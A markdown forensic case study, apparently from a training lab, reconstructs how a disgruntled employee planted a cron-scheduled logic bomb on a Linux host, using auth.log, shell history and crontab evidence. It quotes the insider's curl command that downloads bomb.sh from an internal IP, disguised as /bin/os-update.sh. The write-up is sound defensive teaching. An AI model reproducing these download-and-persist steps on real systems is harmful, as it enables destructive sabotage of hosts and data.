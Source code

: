 # 📝 Case Study: Disgruntled (DFIR)

## 🔹 Overview
This investigation examines activity from a compromised workstation used by a disgruntled employee.  
The goal was to determine what the user did on the host, identify malicious artifacts (a logic bomb), and confirm exfiltration or destructive actions.

**Skills demonstrated:**
- Linux log analysis (`/var/log/auth.log`)
- Command history and file-system forensics
- Jumplist / editor history interpretation
- Crontab analysis for scheduled malicious actions
- Reconstructing attacker intent and timeline

---

## 🔍 Key Activities & Highlights

### 1. Review sudo / install activity
- Searched the authentication log for install actions:
```bash
cd /var/log
cat auth.log | grep install
## Findings
- **Full command executed with sudo:**  
  `/usr/bin/apt install dokuwiki`
- **Present Working Directory when command ran:**  
  `/home/cybert`

<img src="screenshots/disgruntled-auth-install.png" alt="auth.log install evidence" width="600">

---

### 2. User creation and sudo grant
- Searched `auth.log` for user creation and sudo updates:
```bash
cat auth.log | grep adduser
cat auth.log | grep sudo
## Findings
- User created: it-admin
- sudoers file updated at: Dec 28 06:27:34

<img src="screenshots/disgruntled-auth-adduser.png" alt="adduser evidence" width="600"> <img src="screenshots/disgruntled-auth-sudo.png" alt="sudoers update evidence" width="600">

---

### 3. Script activity and editor history
- Inspected auth.log and editor artifacts to find edited script:
cat auth.log
## Findings:
- Script opened with vi: bomb.sh

<img src="screenshots/disgruntled-vi-open.png" alt="vi opened bomb.sh" width="600">

---

### 4. Download and creation of the malicious script
Reviewed .bash_history of the user (it-admin) and other artifacts.
## Findings:
- Command used to fetch the script:
- curl 10.10.158.38:8080/bomb.sh --output bomb.sh
- Script renamed/moved to: /bin/os-update.sh
- Last modified time: Dec 28 06:29

<img src="screenshots/disgruntled-bomb-curl.png" alt="curl download command evidence" width="600"> <img src="screenshots/disgruntled-os-update.png" alt="os-update.sh file evidence" width="600">

---

### 5. Script contents and payload
- Opened the malicious script to inspect behavior:
nano /bin/os-update.sh

## Findings:
- Script creates a file: goodbye.txt
- Contains logic to delete files of the installed service if last login > 30 days → logic bomb.

<img src="screenshots/disgruntled-os-update-contents.png" alt="script contents" width="600">

---

### 6. Scheduling — crontab analysis
- Checked scheduled tasks to find when the logic bomb would execute:
crontab -l
## Findings:
- Malicious task scheduled to run at: 08:00 AM

<img src="screenshots/disgruntled-crontab.png" alt="crontab evidence" width="600">

### Conclusion

- Attacker installed dokuwiki using sudo from /home/cybert.
- Created new user it-admin, later granted sudo privileges.
- Downloaded bomb.sh, renamed it to /bin/os-update.sh, and modified it on Dec 28 06:29.
- Script payload creates goodbye.txt and performs destructive actions.
- Cron job scheduled execution of the malicious script at 08:00 AM → timed destructive logic bomb.

### Recommendations / Lessons Learned

- Enforce least privilege and review sudo grants promptly.
- Monitor auth.log for user creation and privilege escalation.
- Deploy File Integrity Monitoring (FIM) to detect suspicious files under /bin.
- Restrict or monitor curl/wget usage on sensitive hosts.
- Implement scheduled task monitoring (cron/systemd).
- Audit user shell histories and editor artifacts regularly.

---

## 🔗 Navigation
- Back to [DFIR Home](../DFIR/README.md)
